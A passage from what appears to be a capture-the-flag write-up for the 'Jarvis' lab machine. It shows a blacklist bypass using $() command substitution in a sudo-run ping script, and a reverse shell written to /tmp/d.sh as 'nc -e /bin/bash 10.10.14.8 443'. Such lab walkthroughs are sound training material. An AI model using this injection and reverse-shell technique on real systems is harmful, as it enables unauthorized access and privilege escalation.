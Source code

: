 
The problem is that I can’t use any of the forbidden characters:

    
    
    ['&', ';', '-', '`', '||', '|']
    

What the script author left out was the bash syntax to run a command with
`$()`. I can test this:

    
    
    www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
    ***********************************************
         _                 _                       
     ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
    / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
    \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
    |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                    |_|               |_|    |___/ 
                                    @ironhackers.es
                                    
    ***********************************************
    
    Enter an IP: 10.10.14.$(echo 8)
    PING 10.10.14.8 (10.10.14.8) 56(84) bytes of data.
    64 bytes from 10.10.14.8: icmp_seq=1 ttl=63 time=29.5 ms
    64 bytes from 10.10.14.8: icmp_seq=2 ttl=63 time=31.0 ms
    64 bytes from 10.10.14.8: icmp_seq=3 ttl=63 time=85.5 ms
    64 bytes from 10.10.14.8: icmp_seq=4 ttl=63 time=107 ms
    64 bytes from 10.10.14.8: icmp_seq=5 ttl=63 time=129 ms
    ^C
    --- 10.10.14.8 ping statistics ---
    5 packets transmitted, 5 received, 0% packet loss, time 4006ms
    rtt min/avg/max/mdev = 29.554/76.642/129.727/40.347 ms
    

My `$(echo 8)` returns 8 and my ping to 10.10.14.8 works.

### Reverse Shell

None of the reverse shells I know of can run without at least one of the those
characters, but I can just write what I want to run into a file, and then call
that file.

    
    
    www-data@jarvis:/tmp$ echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.14.8 443'
    #!/bin/bash
    
    nc -e /bin/bash 10.10.14.8 443
    www-data@jarvis:/tmp$
    www-data@jarvis:/tmp$ echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.14.8 443' > /tmp/d.sh
    www-data@jarvis:/tmp$ chmod +x /tmp/d.sh
    www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
    ***********************************************
         _                 _
     ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
    / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
    \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
    |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                    |_|               |_|    |___/
                                    @ironhackers.es
    